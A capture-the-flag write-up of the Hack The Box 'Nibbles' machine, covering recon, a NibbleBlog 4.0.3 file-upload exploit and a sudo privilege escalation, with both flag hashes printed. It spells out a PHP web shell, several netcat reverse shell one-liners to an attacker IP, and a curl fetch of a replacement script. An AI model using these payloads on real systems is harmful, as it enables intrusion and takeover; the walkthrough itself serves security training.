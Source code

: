 ## Hack The Box - Nibbles



## Information
### Room URL
https://app.hackthebox.com/machines/Nibbles

### Target Machine IP
10.10.13.82

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.10.14.147

### Information Gathering
`nmap -p- --min-rate 5000 -sV 10.129.131.68
![nmapscan](screenshots/nmapscan.png)

Viewing webpage with inspect open
![webinspect](screenshots/webinspect.png)

Viewing http://10.129.131.68/nibbleblog/
![webnibbleblog](screenshots/webnibbleblog.png)

Internet research reveals an arbitrary file upload vulnerability for version 4.0.3:

https://www.exploit-db.com/exploits/38489

https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html

This page doesnt seem to be going anywhere so start up gobuster:

gobuster dir -u http://10.129.131.68/nibbleblog/ -w /usr/share/dirb/wordlists/common.txt

![gobusterscan](screenshots/gobusterscan.png)

/admin
![adminpage](screenshots/adminpage.png)

/content
![contentpage](screenshots/contentpage.png)

http://10.129.131.68/nibbleblog/content/private/users.xml
![usersxml](screenshots/usersxml.png)

/admin.php
![adminphp](screenshots/adminphp.png)

We know the admin page has a "admin" login from the users.xml but we dont know the password. Hydra cracking is not an option because IP addresses are blacklisted after too many attempts.

Looking back through the content directory, a page config.xml is found.
![configxml](screenshots/configxml.png)

This page makes mention of "nibbles" many times and is the name of the machine. Attempting to use this as the admin password is successful

![adminloggedin](screenshots/adminloggedin.png)

### Admin Page

Looking in the settings page reveals that version 4.0.3 is running, which is the version vulnerable to arbitrary file inclusion

![version](screenshots/version.png)

For this exploit to work, the My Image plugin must be enabled, which it already is. Choose to configure it:

![imageuploader](screenshots/imageuploader.png)

The following bash will form our reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4443 >/tmp/f

Then wrap in php code, save to shell.php and upload.

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4443 >/tmp/f"); ?>

The page gives a bunch of warnings, but that is ok because going to:

http://10.129.131.68/nibbleblog/content/private/plugins/my_image/

We can see that the shell was uploaded as image.php!

Set up a netcat listener:

nc -lvnp 4443

To trigger the reverse shell, visit: http://10.129.131.68/nibbleblog/content/private/plugins/my_image/image.php

And the shell worked!

![ncshell](screenshots/ncshell.png)

### Finding the User Flag

Running the following command upgrades the basic shell to a TTY one:

python3 -c 'import pty; pty.spawn("/bin/bash")'

Running whoami shows the account is "nibbler"

Changing directory to user root (cd ~), and running ls shows the flag

![flag](screenshots/flag.png)

79c03865431abf47b90ef24b9695e148

### Privilege Escalation

By unzipping the personal.zip folder, we find a file monitor.sh

![monitorsh](screenshots/monitorsh.png)

Running sudo -l shows that the monitor.sh can be run with root privilege

![sudol](screenshots/sudol.png)

Attempting to run the shell works as expected

![runmonitor](screenshots/runmonitor.png)

Create another reverse shell to replace monitor.sh with (saved as monitor.sh)

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.147 4445 >/tmp/f

Upload the new monitor.sh with the reverse shell:

curl http://10.10.14.147:8000/monitor.sh -o monitor.sh

Start a netcat listener:

nc -nlvp 4445

Run the new monitor.sh as sudo:

sudo ./monitor.sh

Open the new nc listener and see the shell has connected. Run whoami:

![rootshell](screenshots/rootshell.png)

### Finding the Root Flag

Again run the command to upgrade to a TTY shell:

python3 -c 'import pty; pty.spawn("/bin/bash")'

Look for the root flag:

![rootflag](screenshots/rootflag.png)

de5e5d6619862a8aa5b9b212314e0cdd

Room Complete :)